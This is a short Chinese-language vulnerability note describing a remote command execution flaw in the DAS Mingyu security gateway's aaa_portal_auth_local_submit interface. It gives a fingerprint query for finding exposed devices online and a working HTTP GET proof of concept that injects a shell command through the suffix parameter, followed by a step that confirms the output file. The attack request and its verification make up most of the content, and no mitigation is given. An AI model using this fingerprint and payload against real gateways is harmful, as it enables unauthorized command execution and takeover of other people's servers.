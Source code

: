 # 安恒 明御安全网关 aaa_portal_auth_local_submit 远程命令执行漏洞

# 安恒 明御安全网关 aaa_portal_auth_local_submit 远程命令执行漏洞

## 漏洞描述

安恒 明御安全网关 aaa_portal_auth_local_submit 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

安恒 明御安全网关

## 网络测绘

```
body="/webui/images/basic/login/" && title=="明御安全网关"
```

## 漏洞复现

登录页面

![image-20230828143428738](images/image-20230828143428738.png)

验证POC

```
GET /webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix={{urlenc(`id >/usr/local/webui/test.txt`)}} HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```

![image-20230828143444585](images/image-20230828143444585.png)

```
/test.txt
```

![image-20230828143501551](images/image-20230828143501551.png)

